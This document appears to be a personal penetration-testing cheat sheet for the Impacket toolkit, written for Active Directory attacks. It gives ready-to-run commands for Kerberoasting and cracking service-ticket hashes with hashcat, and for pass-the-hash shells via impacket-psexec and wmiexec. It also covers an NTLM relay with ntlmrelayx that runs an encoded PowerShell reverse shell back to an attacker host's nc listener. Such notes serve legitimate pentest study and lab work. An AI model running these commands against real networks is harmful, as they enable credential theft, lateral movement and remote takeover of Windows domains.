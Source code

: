 # Impacket 

Note: This doc should be placed in an eventual AD folder, once I get that far.
## Install

install impacket with:
`pipenv install impacket`
this will create a virtualenv in `/home/${local_user}/.local/share/virtualenvs/${VENV_NAME}`
you can then:
```
export IMPACKET_SCRIPTS=$(pipenv --venv)/bin
```
Now, you can run impacket scripts with:
```
python3  ${IMPACKET_SCRIPTS}/${script} ...
```

## Kerberoasting

check for SPN accounts:
```
python3 ${IMPACKET_SCRIPTS}/GetUserSPNs.py -dc-ip ${DC_IP} ${DOMAIN}/${DOMAIN_USER}:${DOMAIN_USER_PASSWORD} 

```
Now, we can request the TGS for the found user:

```
python3 $IMPACKET_SCRIPTS/GetUserSPNs.py -dc-ip ${DC_IP} ${DOMAIN}/${DOMAIN_USER}:${DOMAIN_USER_PW} -request-user ${SPN_ACCOUNT} -outputfile tgs.txt 


```

Now, you can crack the password in the tgs file:

```
hashcat -a 0 -m 13100 tgs.txt /usr/share/wordlists/rockyou.txt
```


## Pass Admin hash psexec

Assuming you've found an NTLM admin hash, you might be able to get a reverse shell onto another machine with `impacket-psexec`:

```
impacket-psexec -hashes 00000000000000000000000000000000:${NTLM_HASH} Administrator@$RHOST
```
Format is `${LM_HASH}:${NT_HASH}` - when using the NTLM hash, just put `32 * 0` in the `LM_HASH` section.

a similar command is `impacket-wmiexec`, which gets us a shell as Administrator, rather than the SYSTEM.


## Relay hash with impacket-ntlmrelayx

You can relay SMB requests between SRV1 and SRV2 by doing the following:

* Setup an nc listener on kali: `nc -nvlp 6666`.
* From kali: `sudo impacket-ntlmrelayx --no-http-server -smb2support -t ${SRV2} -c "powershell -enc ${ENCODED_REV_SHELL}` (`ENCODED_REV_SHELL` points to `$ATTACKER_IP` and port `6666`)
* From SRV1 do `dir \\$ATTACKER_IP\thiswillgetdenied`.
The SMB request with the NTLMv2 Hash of the user on SRV1 will get relayed to SRV2.
Target system needs to have UAC remote restrictions disabled, and the user on SRV1 needs to have access to SRV2 for this to work.



